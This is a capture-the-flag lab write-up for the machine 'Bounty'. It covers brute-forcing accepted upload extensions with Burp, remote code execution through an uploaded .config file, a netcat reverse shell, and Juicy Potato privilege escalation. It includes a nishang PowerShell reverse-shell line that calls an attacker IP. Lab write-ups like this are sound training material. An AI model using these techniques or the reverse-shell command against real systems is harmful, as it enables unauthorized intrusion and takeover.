

# Bounty

### Machine Info


#### Nmap


##### HTTP (Port 80)

Index Page:


###### Gobuster


From the page `/transfer.aspx`, it seems like we can upload and I tried to upload file with extension `aspx,asp,php` but failed. Let's just check file extension by using `burpsuite`.

###### BurpSuite

First just create file extension list:


Run `Burp` and send request to `intruder` and set payload:


Clear all markers and only add for extension.



Result:


As we can see from the result, only `jpeg` and `config` files have different length because it gets message `File uploaded successfully` while others get `Invalid File. Please try again`.


I searched PoC about remote code execution with `.config` extension and found good one: []()https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c

I uploaded `nc.exe` to the `C:\Windows\Temp\` directory and just executed `nc.exe` to get reverse shell:


`nc` listener:


#### Privilege Escalation


The `SeImpersonatePrivilge` is enabled which means we can use `juicy potato`:
[]()https://github.com/ohpe/juicy-potato
```
Juicy Potato is a weaponised version of RottenPotatoNG. If user have SeImpersonate or SeAssignPrimaryToken privilege (most services account have), this can be abused and user can impersonate token and will have system privilege.
```


`nishang`s powershell reverse shell:
```
# Add this line at the end of the script
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 5555
```
Create and upload bat file which will be executed by Juicy Potato:


Upload and Execute Juicy Potato:


`nc` listener on attacking side:


And you can get `root.txt` :)
